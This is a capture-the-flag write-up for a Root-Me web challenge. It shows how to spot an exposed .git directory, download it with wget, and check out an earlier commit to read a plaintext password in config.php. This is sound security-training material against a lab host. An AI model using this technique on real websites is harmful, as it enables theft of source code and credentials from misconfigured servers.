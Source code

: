 # Challenge24: Insecure Code Management

## Intuition
    When first hearing "Code Management" term, i immediately thought about git or some SVN :)

## Solution
    1. Open Burp Suite and open the target site.
    2. Try to traverse for .git folder:
```
http://challenge01.root-me.org/web-serveur/ch61/.git
``` 
    3. Indeed, there is .git folder that are enable user to access.
    4. Now, we download it :) 
```
wget -r http://challenge01.root-me.org/web-serveur/ch61/.git
```
    5. When download the whole folder completely. Now, we need some git skills :)))
```bash
git log --graph # show all previous commits, display all in a graph tree
```

    6. In the 3rd commit, you can see they've already change the password but not encrypt it yet.

    7. Now, we checkout to that commit:

```bash
git checkout <git_commit_id>
```

    8. Review the source code (password in config.php). Get that password and submit it as a flag.

